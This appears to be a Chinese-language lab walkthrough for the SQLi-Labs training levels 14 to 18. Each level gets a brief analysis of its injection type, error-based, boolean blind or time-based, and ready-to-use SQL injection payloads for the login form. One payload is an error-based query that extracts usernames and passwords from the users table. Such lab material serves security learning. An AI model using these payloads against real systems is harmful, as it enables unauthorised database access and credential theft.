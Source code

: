 ### Sql-labs-Less-14

有报错，无回显，有布尔状态，双引号闭合 报错注入

payload

```sql
uname=1" or 1=1#&passwd=1&submit=Submit
```

### Sql-labs-Less-15

源码中注释掉了 MySQL 的报错日志，所以这里就不可以进行报错注入了，只能使用布尔盲注或者延时盲注

payload

```sql
uname=1' or length(database())>3#&passwd=1&submit=Submit
```

### Sql-labs-Less-16

和Sql-labs-Less-15一样，闭合方式不一样，双引号闭合

payload

```sql
uname=1") or length(database())>1#&passwd=1&submit=Submit
```

### Sql-labs-Less-17

这一关对用户名的过滤了，需要爆破用户名 admin，对密码没有过滤，

```sql
#uname 参数被过滤了
$uname=check_input($_POST['uname']);  
$passwd=$_POST['passwd'];
#SELECT 语句只获取 uname 参数
@$sql="SELECT username, password FROM users WHERE username= $uname LIMIT 0,1";
```

无回显，有报错，密码段无过滤，单引号闭合，报错注入

```sql
uname=admin&passwd=a' or updatexml(1,concat(0x7e,(database()),0x7e),1)#&submit=Submit
```

或者

```sql
uname=admin&passwd=1' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT(SELECT CONCAT(CAST(CONCAT(username,password) AS CHAR),0x7e)) FROM users LIMIT 0,1),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.TABLES GROUP BY x)a)#&submit=Submit
```

### Sql-labs-Less-18

User-Agent 注入
